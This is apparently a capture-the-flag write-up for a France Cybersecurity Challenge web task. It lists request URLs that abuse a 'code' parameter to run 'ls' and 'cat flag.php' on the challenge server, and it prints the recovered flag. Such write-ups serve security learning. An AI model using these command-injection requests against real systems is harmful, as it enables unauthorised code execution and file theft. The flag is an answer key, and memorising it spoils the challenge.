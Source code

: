 First step : 
```powershell http://challenges2.france-cybersecurity-challenge.fr:5001/```
Second step : 
```powershell http://challenges2.france-cybersecurity-challenge.fr:5001/?source=1```
Third step : 
```powershell http://challenges2.france-cybersecurity-challenge.fr:5001/?code=ls```
Fourth step : 
```powershell http://challenges2.france-cybersecurity-challenge.fr:5001/?code=cat%20flag.php```

And look the source code : 

$flag = "FCSC{5d969396bb5592634b31d4f0846d945e4befbb8c470b055ef35c0ac090b9b8b7}";


